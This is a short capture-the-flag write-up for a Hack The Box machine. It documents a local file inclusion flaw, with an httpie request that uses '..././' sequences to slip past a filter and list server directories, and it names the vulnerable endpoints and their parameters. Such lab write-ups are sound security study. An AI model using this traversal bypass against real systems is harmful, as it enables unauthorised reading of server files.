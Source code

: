 #### 1.1. Target

- URL: `https://www.hackthebox.eu/home/machines/profile/149`
- IP: `10.10.10.87`


#### 1.2. The clue

Application is vulnerable to LFI (local file inclusion). Attacker can read arbitrary files on the system, outside the web-app folder:
```
# http -f http://10.10.10.87/dirRead.php path=..././..././ -b
[
    ".",
    "..",
    "cache",
    "empty",
    "lib",
    "local",
    "lock",
    "log",
    "opt",
    "run",
    "spool",
    "tmp",
    "www"
]
```
Note: `../` gets truncated so `..././` needs to be used to bypass the WAF.

Vulnerable endpoints:
- `http://10.10.10.87/dirRead.php` with POST parameter `path=`
- `http://10.10.10.87/fileRead.php` with POST parameter `file=`
